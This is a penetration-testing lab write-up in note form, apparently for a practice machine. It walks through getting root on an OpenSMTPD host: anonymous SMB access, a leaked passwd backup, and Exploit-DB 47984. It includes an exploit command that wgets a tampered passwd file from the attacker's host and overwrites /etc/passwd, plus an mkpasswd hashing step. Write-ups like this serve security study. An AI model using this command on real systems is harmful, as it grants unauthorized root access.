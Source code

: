 #### Tags
- Foothold: #smtp #opensmtpd #exploit-47984 #passwd #mkpasswd
#### Method

>[!code]- Find open ports (22, 25, 80, 445)
>**All open ports**
>- rustscan -a $ip
>
>![Pasted image 20240614052520](Images/Pasted%20image%2020240614052520.png)
>
>___
>
>**Versions**
>- OpenSMTPD running on port 25
>  
> ![Pasted image 20240614053037](Images/Pasted%20image%2020240614053037.png)

>[!code]- Obtain `passwd.bak` from the SMB share (port 445)
>List shares:
>- **-N** for no password (anonymous access)
>- **-L** to list available share
>
>![Pasted image 20240614052744](Images/Pasted%20image%2020240614052744.png)
>
>___
>
>Connect to the **backup** share and download the **passwd.bak** file
>![Pasted image 20240614052852](Images/Pasted%20image%2020240614052852.png)
>
>>[!code] passwd.bak
>>![Pasted image 20240614052952](Images/Pasted%20image%2020240614052952.png)
>

>[!code]- Find an OpenSMTPD exploit (port 25)
>Searchsploit OpenSMPTD
>![Pasted image 20240614053211](Images/Pasted%20image%2020240614053211.png)

>[!exploit]- The exploit allows for RCE; we can upload a malicious copy of `/etc/passwd`

>[!code]- Alter the download `passwd.bak` file to include a malicious **root** user
>Create a new hash of a password that we know:
>```bash
>mkpasswd -m md5 -s
>```
>![Pasted image 20240614053712](Images/Pasted%20image%2020240614053712.png)
>
>___
>
>Edit **passwd.bak** and edit the root user within it:
>![Pasted image 20240614053841](Images/Pasted%20image%2020240614053841.png)

>[!code]- Use the exploit to replace its original passwd file with our malicious `passwd.bak` file
>```bash
>python 47984.py 192.168.236.71 25 'wget 192.168.45.213/passwd -O /etc/passwd'
>```
>![Pasted image 20240614054054](Images/Pasted%20image%2020240614054054.png)

>[!code]- SSH to the victim as root using the password in the malicious `passwd` file
>![Pasted image 20240614054235](Images/Pasted%20image%2020240614054235.png)

>[!success]- Obtain proof.txt
>![Pasted image 20240614054309](Images/Pasted%20image%2020240614054309.png)

